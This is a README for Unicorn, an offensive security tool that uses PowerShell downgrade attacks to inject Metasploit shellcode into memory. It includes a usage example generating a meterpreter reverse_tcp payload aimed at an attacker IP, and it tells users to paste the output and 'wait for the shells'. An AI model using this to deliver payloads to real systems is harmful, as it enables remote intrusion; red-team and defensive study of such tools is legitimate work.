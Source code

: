 unicorn
=======

Unicorn is a simple tool for using a PowerShell downgrade attack and inject shellcode straight into memory. Based on Matthew Graeber's powershell attacks and the powershell bypass technique presented by David Kennedy (TrustedSec) and Josh Kelly at Defcon 18.

Usage is simple, just run Unicorn (ensure Metasploit is installed and in the right path) and unicorn will automatically generate a powershell command that you need to simply cut and paste the powershell code into a command line window or through a payload delivery system.

root@bt:~/Desktop# python unicorn.py 

              ,_
                 _  `\  )\  ,
                 `\|  \/ |_/\  
       .-. ,    _/  `   '     |/\
       _> \|\,_'> ______        <__,
      `\      ,`'`      `'.       /__  ,
       / _   /)`           ',       <_/|
      `\/ \,; '     ,        \        /_,
        )   | /|     |        |       ` /
            | b/    /    ;    /       .'
            |    _.'|   ;     |      /__,
            |    /  | .'      |        /
            |, _ \  |         |     _.'
             \| 7/  / '.. .'   \   /_ ,     ,_   ,
                `  ;            |    /       |`\ /\
                   |            \  <'     ,_ \  Y |/\
          .-.      |             \-'       >`\| `   <__,
         (.-.`'--''\        ..    \        '-.        / ,
         /   `'---'''`.   `    `'. '.         \     .'_/|
         \  ,_'-.._.                 '.        \    `' _/
          \ \`""-._                   '.       ;     <   _,
           \ \\__   `-;-'                 '.    |      \_//
            \ \ _`,    \                    \  .'        <
             \ /   \    \                    \/       ;.-'`
              '-==='     '.        ;          ;      <__,
                           `'.    .`       ,  |-.  ,__.'
                              `'-.       ,;'  ;  '.\
                               /`      .;;'  ;     `
                             /`           _.'

                            |       _.--'`
                             \    (`(
                              \    \ \
                               \    '.'.
                              .` ,.  )  )
                           .'`. '_.-'.-'
                      _,-'` _.-'`_.-`
                    .'  \_.'`\.-`
                    '---` `--`

Unicorn is a PowerShell injection tool utilizing Matthew Graebers attack and expanded to automatically downgrade the process if a 64 bit platform is detected. This is useful in order to ensure that we can deliver a payload with just one set of shellcode instructions. This will work on any version of Windows with PowerShell installed. Simply copy and paste the output and wait for the shells.

Written by: Dave Kennedy at TrustedSec (https://www.trustedsec.com)

Happy Unicorns.


Usage: python unicorn.py payload reverse_ipaddr port
Example: python unicorn.py windows/meterpreter/reverse_tcp 192.168.1.5 443
